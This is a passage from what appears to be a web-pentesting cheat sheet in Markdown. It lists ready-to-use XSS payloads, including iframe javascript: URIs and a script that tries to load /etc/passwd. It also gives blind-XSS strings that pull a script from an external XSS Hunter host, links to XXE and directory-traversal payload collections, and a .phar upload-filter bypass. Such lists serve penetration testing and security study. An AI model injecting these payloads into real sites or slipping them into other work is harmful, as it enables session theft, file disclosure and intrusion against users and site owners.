 
- `<iframe src=\"javascript:alert('xss')\">`
- `<iframe src="javascript:alert('xss')">`
- `<iframe src='javascript:alert('xss')'>`
- `<script>document.write('<iframe src=file:///etc/passwd></iframe>');</script>`

### BLIND
- `';"</textarea></script><script/src=/bxss.hackwithnahamsec.com/` XSS Hunter
- `</textarea></script><script>alert("This is a basic alert");</script>`

## XML External Entity(XEE)
- [HackTricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)
- [PayLoads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

## Directory Traversal
- [HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
- [PayLoads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/README.md)

## FILE UPLAOD
### BYPASSES:
- `Instead of .php, we can use .phar and use ?page=phar://uploads`